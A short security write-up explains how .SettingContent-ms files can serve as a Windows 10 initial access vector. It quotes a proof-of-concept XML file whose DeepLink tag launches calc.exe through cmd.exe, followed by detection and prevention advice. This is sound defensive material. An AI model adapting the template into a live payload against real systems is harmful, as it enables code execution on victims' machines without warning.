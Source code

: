```yaml
---
title: "Understandings on .SettingContent-ms as aื Initial Access Vector"
date: 2018-12-29T13:27:00+07:00
author: "P. Boonyakarn"
description: ".SettingContent-ms is a format of file that allow a user to create \"shortcuts\" to options available on Windows 10 setting pages"
---
```


## Technical Specification

- `.SettingContent-ms` is a format of file that allow a user to create "shortcuts" to options available on Windows 10 setting pages
- `.SettingContent-ms` was introduced in Windows 10 and can be constructed in XML syntax
- The target application to be launched with `.SettingContent-ms` can be specified on `<DeepLink>` tag. The modified `.SettingContent-ms` will execute program directly without intermediate program.
- Poisoned `.SettingContent-ms` files can be delivered via HTTP/S, execution without notification and warning to users.
- Max character size allowed on `<DeepLink>` tag is 517 characeters.

```xml
<!-- From https://gist.github.com/enigma0x3/b948b81717fd6b72e0a4baca033e07f8 -->
<?xml version="1.0" encoding="UTF-8"?>
<PCSettings>
  <SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent">
    <ApplicationInformation>
      <AppID>windows.immersivecontrolpanel_cw5n1h2txyewy!microsoft.windows.immersivecontrolpanel</AppID>
      <DeepLink>%windir%\system32\cmd.exe /c calc.exe</DeepLink>
      <Icon>%windir%\system32\control.exe</Icon>
    </ApplicationInformation>
    <SettingIdentity>
      <PageID></PageID>
      <HostID>host_id</HostID>
    </SettingIdentity>
    <SettingInformation>
      <Description>@shell32.dll,-4161</Description>
      <Keywords>@shell32.dll,-4161</Keywords>
    </SettingInformation>
  </SearchableContent>
</PCSettings>
```

## Detection/Prevention

- Monitor an execution of child processes from Office applications
- Look for existing of `.SettingContent-ms outside `C:\Windows\ImmersiveControlPanel`
- Examine command logging is enabled 
- Blocking `.SettingContent-ms` on the perimeter
- Changing the file association types for `.SettingContent-ms` to notepad or something different that does not execute the code

## References

- [The Tale of SettingContent-ms Files](https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39)
- [Weaponizing .SettingContent-ms Extensions for Code Execution](https://www.trustedsec.com/2018/06/weaponizing-settingcontent/)